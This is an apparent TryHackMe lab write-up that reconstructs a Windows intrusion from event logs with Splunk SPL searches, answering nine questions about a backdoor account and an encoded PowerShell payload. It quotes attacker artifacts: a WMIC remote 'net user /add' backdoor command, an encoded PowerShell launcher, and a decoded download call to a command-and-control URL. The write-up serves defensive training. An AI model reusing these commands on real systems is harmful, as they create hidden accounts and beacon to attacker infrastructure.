

# Investigating with Splunk — TryHackMe Write-up

A walkthrough of the **Investigating with Splunk** room on TryHackMe, documenting how a Windows compromise was reconstructed from raw event logs using **Splunk** and **Search Processing Language (SPL)**.

The room drops you into a Splunk instance holding a pre-ingested JSON log export and asks nine investigation questions about a host compromise. No agent, no exploit, no shell — just an index and the questions you would ask it as an analyst.

> **Platform:** [TryHackMe](https://tryhackme.com/room/investigatingwithsplunk) · **Tooling:** Splunk Enterprise 8.2.6 (AttackBox), SPL
> **Dataset:** `splunk_challenge.json` ingested into `index=main` — **12,256 events**, `sourcetype=event_logs`

---

## Table of contents

- [Room objectives](#-room-objectives)
- [Attack chain at a glance](#-attack-chain-at-a-glance)
- [Investigation walkthrough](#-investigation-walkthrough)
  - [Q1: Total events in index main](#q1-total-events-in-index-main)
  - [Q2: Backdoor user account creation](#q2-backdoor-user-account-creation)
  - [Q3: Registry key for the backdoor user](#q3-registry-key-for-the-backdoor-user)
  - [Q4: User targeted for impersonation](#q4-user-targeted-for-impersonation)
  - [Q5: Remote backdoor user creation command](#q5-remote-backdoor-user-creation-command)
  - [Q6: Backdoor user logon attempts](#q6-backdoor-user-logon-attempts)
  - [Q7: Infected host running suspicious PowerShell](#q7-infected-host-running-suspicious-powershell)
  - [Q8: Event volume for the malicious PowerShell execution](#q8-event-volume-for-the-malicious-powershell-execution)
  - [Q9: URL from the encoded PowerShell script](#q9-url-from-the-encoded-powershell-script)
- [Encoded PowerShell analysis](#-encoded-powershell-analysis)
- [Verified answers summary](#-verified-answers-summary)
- [Key findings and lessons learned](#-key-findings-and-lessons-learned)
- [Tools and techniques](#-tools-and-techniques)
- [Conclusion](#-conclusion)
- [Repository structure](#-repository-structure)

---

## 🔍 Room objectives

- Navigate the Splunk Search & Reporting app and scope a search to a specific index.
- Identify **account creation** activity from Windows Security logs.
- Trace **registry modification** tied to the new account using Sysmon.
- Reconstruct **remote command execution** from process-creation events.
- Confirm or rule out **follow-on logon activity** for an attacker-created account.
- Locate and analyse **PowerShell execution artifacts**, including an **encoded** payload.

---

## 🗺️ Attack chain at a glance



The chain above maps cleanly onto the questions: an encoded PowerShell payload runs on **`James.browne`**, spawns **WMIC** to reach a second host (**`WORKSTATION6`**), which creates the **`Alberto`** account and its **SAM** registry key, while the same payload builds an outbound **HTTP request**.

> **A note on host naming.** Splunk's own `host` field is `server` for every event in the dataset — the platform that received the logs. The meaningful hostname is the **event-level** `Hostname` field (`James.browne`, `Micheal.Beaven`). Reading `host` as the compromised machine is an easy mistake here; `Hostname` is what answers the questions.

> **A note on timestamps.** The `_time` column shows `5/11/22 10:32:18 PM` while the same event carries `EventTime: 2022-02-14 08:06:02`. In this dataset `_time` reflects when the record was indexed, not when it occurred. Check which field you are comparing before correlating anything across sources.

---

## 🔍 Investigation walkthrough

Each question is documented as: **objective**, **approach**, the **SPL or command** used, the **evidence** observed, and the **answer**.

---

### Q1: Total events in index main

**Objective**
> How many events were collected and ingested in the index `main`?

**Approach**
Scope a search to `index=main` with the time range set to **All time** and read the event count from the results status bar.

**SPL**

```spl
index=main
```

**Evidence**
The Search app reports **12,256 events** for the index. The `Events` tab carries the same figure (`Events (12,256)`), and the job shows `No Event Sampling`, meaning the count is the true total rather than an extrapolation.


The first result also previews the `Hostname: James.browne` value that answers Q7.

**Answer**

> **12256**

---

### Q2: Backdoor user account creation

**Objective**
> On one of the infected hosts, the adversary was successful in creating a backdoor user. What is the new username?

**Approach**
Account creation on Windows is Security **EventID `4720`** (*"A user account was created"*). Search the index for that event ID and inspect the `New Account` block, which carries the name assigned to the account.

**SPL**

```spl
index=main "4720" EventID=4720
```

**Evidence**
The search returns a single matching event. Its `New Account` block holds the answer:

| Field | Value |
| --- | --- |
| `EventID` | `4720` |
| `Message` | `A user account was created.` |
| `New Account` → `Account Name` | **`Alberto`** |
| `New Account` → `Account Domain` | `WORKSTATION6` |
| `New Account` → `Security ID` | `S-1-5-21-1969843730-2406867588-1543852148-1000` |
| `Subject` → `Account Name` | `James` |
| `Subject` → `Account Domain` | `Cybertees` |
| `Subject` → `Logon ID` | `0x551686` |
| `EventTime` | `2022-02-14 08:06:02` |
| `Hostname` | `Micheal.Beaven` |


Reading the `Subject` and `New Account` blocks together tells the story: the account was created **by** the `James` (`Cybertees`) identity, and the new account lands in the `WORKSTATION6` domain. The `528` (`Logon ID`) value is a logon session identifier, useful for correlating every action taken in the same session.

A looser keyword search over the same index confirms how much of the dataset touches this account:

```spl
index=main Alberto
```

→ **14 events**, categorised under `User Account Management`.


**Answer**

> **Alberto**

---

### Q3: Registry key for the backdoor user

**Objective**
> On the same host, a registry key was also updated regarding the new backdoor user. What is the full path of that registry key?

**Approach**
A local account's name is recorded in the SAM hive under `SAM\SAM\Domains\Account\Users\Names\<username>`. Sysmon logs registry persistence activity as **EventID `12`** (*"Registry object added or deleted"*), which exposes the full path in the `TargetObject` field.

**Evidence**
The event is a Sysmon Operational record from the same window as the account creation:

| Field | Value |
| --- | --- |
| `EventID` | `12` |
| `Channel` | `Microsoft-Windows-Sysmon/Operational` |
| `Category` | `Registry object added or deleted (rule: RegistryEvent)` |
| `TargetObject` | **`HKLM\SAM\SAM\Domains\Account\Users\Names\Alberto`** |
| `Image` | `C:\windows\system32\lsass.exe` |
| `ProcessId` | `740` |
| `AccountName` / `UserID` | `SYSTEM` / `S-1-5-18` |
| `UtcTime` | `2022-02-14 12:06:02.420` |
| `Hostname` | `Micheal.Beaven` |


**Why this matters.** The write is performed by `lsass.exe` running as `SYSTEM` — that is the normal signature of the Local Security Authority committing a new account to the SAM database, not an attacker editing the hive by hand. The registry path is therefore a *consequence* of the account creation in Q2, but it independently corroborates the account name and gives a second, high-fidelity artifact to pivot on.

> **Field note.** `UtcTime` (`12:06:02.420`) runs four hours ahead of the local `EventTime` (`08:06:02`). The two fields use different clock references, so pick one convention and stick to it when building a timeline.

**Answer**

> **`HKLM\SAM\SAM\Domains\Account\Users\Names\Alberto`**

---

### Q4: User targeted for impersonation

**Objective**
> Examine the logs and identify the user that the adversary was trying to impersonate.

**Approach**
Pivot on the account name recovered in Q2/Q3 and follow it through the account-management events to establish which identity the attacker adopted.

**Evidence**
Every artifact recovered in Q2 and Q3 resolves to a single name: the account created by the `James` (`Cybertees`) session is registered as **`Alberto`**, the SAM name key written by `lsass.exe` is `...\Names\Alberto`, and the `index=main Alberto` search surfaces 14 events classified as `User Account Management`.

**Interpretation.** The account was given a human-looking name and committed through the normal SAM path, rather than being created as an obviously synthetic service or machine account. Accounts named like ordinary people blend into routine authentication and audit activity, which is the point of the technique. The evidence here does not show a pre-existing legitimate `Alberto` account being taken over, so the impersonation is best read as the attacker *adopting* an ordinary-looking identity rather than hijacking an existing one.

> **Evidence limitation.** No screenshot in this session isolates Q4 from Q2/Q3 — the answer is supported by the same `Alberto` artifacts rather than by a dedicated event. This is flagged rather than padded out, and the underlying account-management events are reproduced above.

**Answer**

> **Alberto**

---

### Q5: Remote backdoor user creation command

**Objective**
> What is the command used to add a backdoor user from a remote computer?

**Approach**
Process creation is Security **EventID `4688`**, which records the full `CommandLine` of the process that started. Filter the index to the account of interest and the host already identified.

**SPL**

```spl
index=main Alberto hostname="James.browne"
```

→ **3 events**

**Evidence**
The matching event shows the complete creation chain — a PowerShell parent spawning `WMIC` to act on a *second* machine:

| Field | Value |
| --- | --- |
| `EventID` | `4688` |
| `Channel` | `Security` |
| `CommandLine` | `"C:\windows\System32\Wbem\WMIC.exe" /node:WORKSTATION6 process call create "net user /add Alberto paw0rd1"` |
| `New Process Name` | `C:\Windows\System32\wbem\WMIC.exe` |
| `Creator Process Name` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| `Creator` → `Account Name` / `Account Domain` | `James` / `Cybertees` |
| `MandatoryLabel` | `S-1-16-12288` (High integrity) |
| `Hostname` | `James.browne` |
| `EventTime` | `2022-02-14 08:06:01` |


The `Creator Process Name` field is the pivot that ties this question back to the PowerShell investigation later in the room: the command was not typed by a human on the target host — it was launched **by an encoded PowerShell process**. `WMIC`'s `/node:` switch directs the request at a remote machine, and `process call create` runs the quoted `net user /add` on that remote host, which is why the account appears in the `WORKSTATION6` domain back in Q2.

The command, as recorded in the event:

```cmd
"C:\windows\System32\Wbem\WMIC.exe" /node:WORKSTATION6 process call create "net user /add Alberto paw0rd1"
```

> **Formatting note.** The room's answer field renders this string without the leading double quote, so what you submit is:
> `C:\windows\System32\Wbem\WMIC.exe" /node:WORKSTATION6 process call create "net user /add Alberto paw0rd1`
> The event log's `CommandLine` above is the authoritative full form.

**Answer**

> **`"C:\windows\System32\Wbem\WMIC.exe" /node:WORKSTATION6 process call create "net user /add Alberto paw0rd1"`**

---

### Q6: Backdoor user logon attempts

**Objective**
> How many times was the login attempt from the backdoor user observed during the investigation?

**Approach**
Establish whether the created account was ever *used*. The relevant events are interactive/network logons (Security `4624`, with `4625` for failures) referencing the account name.

**Evidence**
Searching the index for logon activity tied to the backdoor account returns **nothing**. The `Alberto` account and its SAM key exist, but no authentication event references it — the account was staged, not exercised.

This is a **negative finding**, and the distinction matters:

- **Observed:** the account was created (`4720`) and its name key written to SAM (Sysmon `12`).
- **Not observed:** any logon event for that account anywhere in the index.

> **Evidence limitation.** No screenshot in this session captures the search that produced this result. The finding is reported as an absence of logon activity for the account, which is what the answer reflects — but a documented query returning an empty result set (or an explicit `stats count` of zero) would make it independently reproducible. Treat this entry as the weakest-evidenced of the nine.

**Answer**

> **0**

---

### Q7: Infected host running suspicious PowerShell

**Objective**
> What is the name of the infected host on which suspicious PowerShell commands were executed?

**Approach**
Narrow the index to the PowerShell operational channel, which holds script-block and pipeline execution records, then read the hostname from the returned events.

**SPL**

```spl
index=main splunk_challenge | search Channel="Microsoft-Windows-PowerShell/Operational"
```

**Evidence**
The search returns 79 events, all bearing the same host and user:

| Field | Value |
| --- | --- |
| `Channel` | `Microsoft-Windows-PowerShell/Operational` |
| `Hostname` | **`James.browne`** |
| `User` | `Cybertees\James` |
| `EventID` | `800` — Pipeline Execution Details |
| `Message` | `Pipeline execution details for command line: $taskURI = $script:TaskURIs \| Get-Random` |
| `Host Application` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc <base64 blob>` |


The host identity is consistent with the process-creation event in Q5, where `powershell.exe` on `James.browne` spawned the remote `WMIC` call — the two findings corroborate each other.

**Answer**

> **James.browne**

---

### Q8: Event volume for the malicious PowerShell execution

**Objective**
> PowerShell logging is enabled on this device. How many events were logged for the malicious PowerShell execution?

**Approach**
Querying the PowerShell operational channel is sufficient — but note that the *earlier* command (`index=main` across the whole dataset) also returns 79 events, because the very first page of results is itself drawn from this same PowerShell execution. The channel filter is what makes the number defensible:

```spl
index=main splunk_challenge | search Channel="Microsoft-Windows-PowerShell/Operational"
```

**Evidence**
The result status bar reads **79 events**, matching the `Events (79)` tab count — the same result set shown in Q7. The events form a contiguous run of pipeline execution records from a single encoded script, which is why the count is treated as the footprint of one malicious execution rather than of general PowerShell usage.

> **Why the count is stable.** With `No Event Sampling` set, Splunk reports the exact number of matching events rather than an estimate, so the figure does not need to be re-run with a `stats count` to be trusted.

**Answer**

> **79**

---

### Q9: URL from the encoded PowerShell script

**Objective**
> An encoded Powershell script from the infected host initiated a web request. What is the full URL?

**Approach**
The `Host Application` field in the PowerShell events carries the entire base64 blob passed to `powershell.exe -enc`. Extracting and decoding that blob reveals the script's network behaviour. The event was located by searching for the encoded execution:

```spl
index=main (EventCode=4104 OR SourceName="Microsoft-Windows-PowerShell") "enc" | spath ContextInfo | search ContextInfo* Severity=Informational
```

The `spath` stage pulls apart the nested `ContextInfo` block that carries `Host Application`.

> **Legibility note.** The search bar in this screenshot is only partially legible at the captured resolution — the query above is reproduced as read. The `Host Application` field it surfaces, however, is unambiguous.

**Evidence**

The event confirms an encoded execution from the compromised host and user:

| Field | Value |
| --- | --- |
| `Host Application` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc <base64 blob>` |
| `User` | `Cybertees\James` |
| `Sequence Number` | `728` |


The `-noP -sta -w 1 -enc` flag set is itself diagnostic: **no profile**, **STA mode**, **hidden window**, and an **encoded command**. That combination is a standard non-interactive launcher for obfuscated payloads.

Separately, the pipeline execution records in the dataset expose the script's URI selection logic through the `Get-Random` parameter bindings:

```text
ParameterBinding(Get-Random): name="InputObject"; value="/admin/get.php"
ParameterBinding(Get-Random): name="InputObject"; value="/news.php"
ParameterBinding(Get-Random): name="InputObject"; value="/login/process.php"
```

The script holds a pool of candidate endpoints and picks one at random before building its request — `/news.php` being the value selected in this instance.

**Answer**

> **`hxxp://10[.]10[.]10[.]5/news[.]php`** — defanged form. The live URL as constructed by the script is `http://10.10.10.5/news.php`.

The decoding of the blob is covered in the next section.

---

## 🧪 Encoded PowerShell analysis

### What the artifact is

The `-enc` argument to `powershell.exe` accepts a **Base64-encoded** command. PowerShell itself decodes the string and executes it, which is precisely why the technique is used: the command is not readable in a process listing, an EDR console, or a `4688` `CommandLine` at a glance. Script-block logging captures the decoded content on well-instrumented hosts — that is the logging that makes this question answerable at all.

### Decoding the blob

The blob was extracted from the Splunk event's `Host Application` field and **decoded with the assistance of Arena Agent**, Arena.ai's agent mode. To be explicit about the division of labour: **Arena Agent performed the Base64 and UTF-16 decoding and interpreted the reconstructed script — this was not decoded by hand.**

The decode revealed a **nested** encoding step — a Base64 string that itself decodes to a **UTF-16** host string — and the request construction:

```powershell
$ser  = ... FromBase64StRinG( '<base64 of the UTF-16 host string>' ) ...
$t    = '/news.php'
$Data = $7a6d.DownLoadData($Ser + $t)   # <- the actual web request
```

> **Reading note.** The snippet above is reproduced from the decode output. The client object variable (`$7a6d`) and the mixed-case `FromBase64StRinG` are low-confidence identifiers at the captured screenshot resolution; the structure that matters — a base64-decoded host string, a separate path variable, and the `$ser + $t` concatenation feeding a `DownLoadData` call — is unambiguous.

The pieces resolve in sequence:

| Step | Result |
| --- | --- |
| Nested Base64 (UTF-16) | `http://10.10.10.5` |
| Appended path `$t` | `/news.php` |
| **Final URL = `$ser` + `$t`** | **`http://10.10.10.5/news.php`** |


### The failed first submission

The first submission was rejected by the room:


The answer-format hint on that field indicates the expected shape — `<scheme>://<dotted IPv4>/<name>.php` — which is consistent with the decoded URL. The failure itself traced to the value submitted: during a verification pass, Arena Agent had printed a typo'd intermediate host (`http://10/10.10.5`, missing an octet), caused by a mistyped Base64 string in a quick check. The agent re-decoded the blob from the original paste, confirmed the correct octets as `10.10.10.5`, and confirmed the two decodes matched on the URL-relevant parts. The corrected value was accepted.

> **Why this is documented.** It is a good illustration of a real analysis habit: when a checker, parser, or validator rejects an answer you believe is correct, re-verify the *decode* rather than the *formatting* first. A single mistyped character in a Base64 string silently changes the decoded output — the error surfaces as a plausible-looking but wrong value, not as an exception.

### Why the decoded content matters

- **It establishes command-and-control infrastructure.** The decoded script aims an HTTP request at a hard-coded address (`10.10.10.5`), giving the investigation a concrete indicator to hunt across other hosts and logs.
- **It explains the endpoint pool.** Selecting `/admin/get.php`, `/news.php`, or `/login/process.php` at random makes network detection harder — a single URL blocklist would miss two-thirds of the traffic.
- **It completes the chain.** Combined with Q5, the picture is: the encoded script runs, builds a beacon request, and simultaneously spawns `WMIC` to create a persistence account elsewhere. The host was not merely running an unusual script — it was acting as a controller.

---

## 📊 Verified answers summary

| # | Question | Answer |
| --- | --- | --- |
| 1 | Events collected and ingested in `index=main` | **12256** |
| 2 | New username of the backdoor account | **Alberto** |
| 3 | Full path of the updated registry key | **`HKLM\SAM\SAM\Domains\Account\Users\Names\Alberto`** |
| 4 | User the adversary was trying to impersonate | **Alberto** |
| 5 | Command used to add a backdoor user remotely | **`"C:\windows\System32\Wbem\WMIC.exe" /node:WORKSTATION6 process call create "net user /add Alberto paw0rd1"`** |
| 6 | Login attempts observed from the backdoor user | **0** |
| 7 | Infected host running suspicious PowerShell | **James.browne** |
| 8 | Events logged for the malicious PowerShell execution | **79** |
| 9 | Full URL from the encoded PowerShell script | **`hxxp://10[.]10[.]10[.]5/news[.]php`** *(live: `http://10.10.10.5/news.php`)* |


---

## 🧠 Key findings and lessons learned

**Findings**

- A backdoor account (**`Alberto`**) was created on `WORKSTATION6` by an encoded PowerShell process running as the `James` (`Cybertees`) identity on the host `James.browne`.
- The account was **staged but never used** — zero logon events reference it, so there is no evidence of successful attacker authentication with the account.
- The same PowerShell process attempted an outbound HTTP request to **`http://10.10.10.5/news.php`**, choosing the path from a randomised pool of three endpoints.
- Two independent artifacts — Security `4720` and Sysmon `12` — converge on the same account name, which is a useful corroboration pattern: never rest a conclusion on a single event source when a second one is available.

**Lessons**

- **Know your timestamp fields.** `_time` was the index-time value in this dataset, hours away from the event's own `EventTime`. Building a timeline off the wrong field silently corrupts the sequence.
- **Distinguish platform fields from event fields.** Splunk's `host` was `server` for every record; the compromised machines only appear in the event-level `Hostname` field.
- **A `Creator Process Name` field is worth more than the command.** It was `Creator Process Name: powershell.exe` that connected the WMIC execution to the encoded script, turning two separate questions into one narrative.
- **Negative results are results — if you can show your work.** The "0 logon attempts" answer is only as strong as the search behind it. Document the query and the empty result, or the finding is an assertion.
- **Re-verify the decode before doubting the format.** The rejected URL traced back to a mistyped Base64 character, not to a formatting problem.
- **Obfuscation still leaves fingerprints.** `-noP -sta -w 1 -enc` in `Host Application` and a `4688` whose `CommandLine` is a giant Base64 string are both high-signal detections that require no decoding to spot.

---

## 🧰 Tools and techniques

| Tool / Technique | Applied to |
| --- | --- |
| **Splunk Enterprise** (Search & Reporting app) | Scoping searches to `index=main`, reading result counts, inspecting event fields |
| **SPL** — `index=`, keyword and field filters (`EventID=`, `hostname=`), pipe to `search` and `spath` | Q1, Q2, Q5, Q7, Q8, Q9 |
| **Windows Security event analysis** | `4720` account creation, `4688` process creation with command line |
| **Sysmon event analysis** | EventID `12` registry object activity and the `TargetObject` path |
| **PowerShell logging analysis** | Windows PowerShell / Operational channel, pipeline execution details, `Host Application` with `-enc` |
| **Base64 / UTF-16 decoding** | Recovering the encoded script's host string and request construction (performed with **Arena Agent**) |
| **Timeline and field correlation** | Linking `Logon ID`, `Creator Process Name`, `Hostname` and user across independent log sources |

---

## 📝 Conclusion

The room is a compact exercise in doing more with less: one index, one JSON export, and nine questions that together reconstruct a full intrusion chain. Nothing here required a decoder ring or a custom tool — `4720`, `4688`, Sysmon `12`, and the PowerShell operational channel carried the entire story, and the decisive step was not finding exotic events but reading the *right fields* on ordinary ones.

The one part that did need real decoding effort was the encoded payload, and that was handled with **Arena Agent** rather than by hand. Documenting that honestly matters: a write-up should show which conclusions you reached and which were assisted, because the value of an investigation report depends on a reader being able to trust it.

---

## 🗂️ Repository structure

```text
.
├── README.md                 # This write-up
├── images/                   # Session screenshots referenced above
└── rename-screenshots.sh     # Stages the original captures into images/
```

The `images/` directory holds the screenshots used in this write-up. The `rename-screenshots.sh` helper maps the original session captures to the descriptive filenames referenced in the document — copy the originals into the repository root and run it once to populate `images/`.
